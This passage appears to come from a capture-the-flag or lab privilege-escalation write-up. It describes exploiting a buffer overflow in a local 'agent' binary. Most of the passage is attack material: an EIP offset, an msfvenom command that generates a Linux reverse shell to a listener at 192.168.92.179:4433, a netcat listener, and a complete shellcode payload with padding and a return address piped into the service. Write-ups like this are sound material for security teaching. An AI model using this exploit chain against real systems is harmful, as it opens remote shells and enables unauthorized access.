 ![writeup.privesc.steps.3.2](./screenshot19.png)  

4\. It requests for an agent ID which we find to be `48093572` using `objdump`. Upon entering this ID we are presented multiple options and the #3 option seems vulnerable to a buffer overflow. We found the EIP offset to be 168 and then use [ROPShell](http://ropshell.com/ropsearch?h=fabc1afd43f668df0b812213567d032c) to find a `call` or `jmp` that can be used for redirecting control. We created a linux reverse shell using `msfvenom`, crafted our exploit and used `netcat` to submit it as payload to the locally running instance of the vulnerable `agent` binary:  
``` {.python .numberLines}
objdump -d agent | grep "<main>:" -A30
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.92.179 LPORT=4433 -f python -b "\x00\x0a\x0d"
nc -nlvp 4433
echo -en "48093572\n3\n\xbe\xc3\x35\x65\xa2\xd9\xc8\xd9\x74\x24\xf4\x5a\x33\xc9\xb1\x12\x83\xc2\x04\x31\x72\x0e\x03\xb1\x3b\x87\x57\x04\x9f\xb0\x7b\x35\x5c\x6c\x16\xbb\xeb\x73\x56\xdd\x26\xf3\x04\x78\x09\xcb\xe7\xfa\x20\x4d\x01\x92\x72\x05\xad\xd1\x1b\x54\x4e\x04\x8d\xd1\xaf\x96\x4b\xb2\x7e\x85\x20\x31\x08\xc8\x8a\xb6\x58\x62\x7b\x98\x2f\x1a\xeb\xc9\xe0\xb8\x82\x9c\x1c\x6e\x06\x16\x03\x3e\xa3\xe5\x44\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x63\x85\x04\x08\x0a" | nc localhost 7788

```

![writeup.privesc.steps.4.1](./screenshot20.png)  
